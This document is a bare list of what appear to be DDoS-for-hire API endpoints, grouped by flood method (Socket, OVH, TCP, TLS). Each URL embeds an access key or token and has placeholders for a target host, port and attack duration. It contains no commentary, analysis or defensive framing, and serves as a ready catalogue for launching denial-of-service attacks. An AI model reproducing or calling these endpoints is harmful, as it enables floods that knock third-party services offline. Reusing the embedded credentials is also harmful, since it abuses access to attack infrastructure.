 
Socket

http://api.tcp-connect.xyz/api/attack?username=denial&secret=denialapiong41s1sS1Sxdljeed&host=[host]&port=[port]&time=[time]&method=.socket
https://imagine-funneling.xyz/api/attack?token=IqJ1on9X7vwgJgv636H&host=[host]&port=[port]&time=[time]&threads=1&method=skt
http://45.90.12.98:65535/api/attack?username=deni&key=deni123&host=[host]&port=[port]&time=[time]&method=tcp
http://141.98.7.26/kkkkkks8s88s/ddos.php?key=xnvmn&&host=[host]&port=[port]&time=[time]&method=SOCKET
https://gorilla-spoofed-api.cloud/api/attack?username=cindy&secret=cindyyyy454&host=[host]&port=[port]&time=[time]&method=handshake
http://51.222.196.58/api.php?key=test&host=[host]&port=[port]&time=[time]&method=HSK
https://yuze-api.xyz/yuze/api?key=denial89&host=[host]&port=[port]&time=[time]&method=!socket


OVH

http://api.tcp-connect.xyz/api/attack?username=denial&secret=denialapiong41s1sS1Sxdljeed&host=[host]&port=[port]&time=[time]&method=.ovh
https://imagine-funneling.xyz/api/attack?token=IqJ1on9X7vwgJgv636H&host=[host]&port=[port]&time=[time]&threads=1&method=ovh
http://45.90.12.98:65535/api/attack?username=deni&key=deni123&host=[host]&port=[port]&time=[time]&method=ovh
http://141.98.7.26/kkkkkks8s88s/ddos.php?key=xnvmn&&host=[host]&port=[port]&time=[time]&method=OVH
https://gorilla-spoofed-api.cloud/api/attack?username=cindy&secret=cindyyyy454&host=[host]&port=[port]&time=[time]&method=ovhtcp
http://51.222.196.58/api.php?key=test&host=[host]&port=[port]&time=[time]&method=TCP
https://yuze-api.xyz/yuze/api?key=denial89&host=[host]&port=[port]&time=[time]&method=!ovh


TCP

http://api.tcp-connect.xyz/api/attack?username=denial&secret=denialapiong41s1sS1Sxdljeed&host=[host]&port=[port]&time=[time]&method=.tcpmix
https://imagine-funneling.xyz/api/attack?token=IqJ1on9X7vwgJgv636H&host=[host]&port=[port]&time=[time]&threads=1&method=tcp
http://45.90.12.98:65535/api/attack?username=deni&key=deni123&host=[host]&port=[port]&time=[time]&method=tcp
http://141.98.7.26/kkkkkks8s88s/ddos.php?key=xnvmn&&host=[host]&port=[port]&time=[time]&method=TCP
https://gorilla-spoofed-api.cloud/api/attack?username=cindy&secret=cindyyyy454&host=[host]&port=[port]&time=[time]&method=tcpmuti
http://51.222.196.58/api.php?key=test&host=[host]&port=[port]&time=[time]&method=TCP
https://yuze-api.xyz/yuze/api?key=denial89&host=[host]&port=[port]&time=[time]&method=!tcp

TLS

http://api.tcp-connect.xyz/api/attack?username=denial&secret=denialapiong41s1sS1Sxdljeed&host=[host]&port=[port]&time=[time]&method=!tls
https://imagine-funneling.xyz/api/attack?token=IqJ1on9X7vwgJgv636H&host=[host]&port=[port]&time=[time]&threads=1&method=TLS
http://45.90.12.98:65535/api/attack?username=deni&key=deni123&host=[host]&port=[port]&time=[time]&method=tls
http://141.98.7.26/kkkkkks8s88s/ddos.php?key=xnvmn&&host=[host]&port=[port]&time=[time]&method=HTTP
https://gorilla-spoofed-api.cloud/api/attack?username=cindy&secret=cindyyyy454&host=[host]&port=[port]&time=[time]&method=tls
https://yuze-api.xyz/yuze/api?key=denial89&host=[host]&port=[port]&time=[time]&method=!httpsbyp
